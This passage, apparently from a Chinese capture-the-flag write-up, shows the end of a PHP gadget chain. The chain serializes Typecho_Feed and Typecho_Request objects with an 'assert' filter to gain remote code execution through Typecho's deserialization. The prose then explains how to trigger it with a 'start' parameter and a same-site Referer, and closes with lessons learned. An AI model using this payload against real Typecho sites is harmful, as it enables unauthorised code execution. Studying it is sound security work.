 ```
                $this-&gt;_items[0] = array(
                        'category' =&gt; array(new Typecho_Request()),
                        'author' =&gt; new Typecho_Request(),
                );
        `}`
`}`

class Typecho_Request
`{`
        private $_params = array();
        private $_filter = array();

        public function __construct() `{`
                $this-&gt;_params['screenName'] = $GLOBALS[cmd];
                $this-&gt;_filter[0] = 'assert';
        `}`
`}`

$exp = array(
        'adapter' =&gt; new Typecho_Feed(),
        'prefix'  =&gt; 'typecho_'
);

echo base64_encode(serialize($exp));
?&gt;
```

生成payload之后再来触发反序列化条件，但是这个题并没有看到`session_start()`，貌似只能找找其他触发点了：

[![](https://p3.ssl.qhimg.com/t01f4db0b9f7b8a35dd.png)](https://p3.ssl.qhimg.com/t01f4db0b9f7b8a35dd.png)

finish参数由于没有session已经被阻挡了

如果有`start`参数，并且Referer设置为本站时，可以触发反序列化操作，进行RCE

[![](https://p4.ssl.qhimg.com/t01c6f46f6dd00636a6.png)](https://p4.ssl.qhimg.com/t01c6f46f6dd00636a6.png)



## 总结

总的来说，做的这三个EZ题目难度没有特别大，但是出的质量也还挺好的，也是强化了一些思维，比如针对**url想到CRLF或者SSRF探测内网**，nodejs题目多往沙箱逃逸方向思考，善于利用Github等等，总而言之，对自己而言收获还是很大的
